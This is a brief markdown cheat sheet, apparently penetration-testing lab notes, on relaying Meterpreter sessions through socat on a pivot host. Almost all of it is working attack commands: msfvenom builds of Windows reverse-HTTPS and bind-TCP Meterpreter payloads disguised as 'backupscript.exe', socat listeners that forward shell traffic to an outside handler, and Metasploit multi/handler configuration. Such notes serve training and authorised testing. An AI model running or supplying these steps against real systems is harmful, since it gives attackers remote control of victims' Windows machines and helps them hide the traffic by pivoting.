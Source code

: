 # Socat

## Socat Redirection with a Reverse Shell

1) Starting Socat Listener
On Target Host :
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

2) Creating the Windows Payload
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

3) Configuring & Starting the multi/handler
sudo msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run

4) Establishing the Meterpreter Session
meterpreter > getuid

## Socat Redirection with a Bind Shell

1) Creating the Windows Payload
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

2) Starting Socat Bind Shell Listener
On TARGET host :
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443

3) Configuring & Starting the Bind multi/handler
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 10.129.202.64
set LPORT 8080
run

4) Establishing Meterpreter Session
meterpreter > getuid
